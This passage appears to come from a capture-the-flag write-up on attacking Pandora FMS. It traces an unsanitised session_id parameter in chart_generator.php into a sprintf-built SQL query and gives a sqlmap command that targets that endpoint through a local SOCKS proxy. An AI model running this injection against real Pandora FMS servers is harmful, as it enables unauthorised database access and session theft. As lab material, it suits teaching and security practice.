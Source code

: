 ![](/assets/img/posts/pandora/pandora-mysql-php.png)

So, here is the sql query statement `sprintf('SELECT %s FROM %s %s', $fields, $table, $filter)`

And  here's how it looks like, when it get executed

* `fields` == `*`
* `table` == `tsessions_php`
* `filter` == `id_session` == `phpsessionid` == `session_id`

```sql
SELECT * FROM tsessions_php WHERE id_session=session_id
```

### SQLMAP

We have enough information, Time to run sqlmap
```bash
sqlmap --url "http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=" --batch --dbms=mysql --proxy 'socks5://127.0.0.1:4141'
```

![](/assets/img/posts/pandora/sqlmap-injections.png)
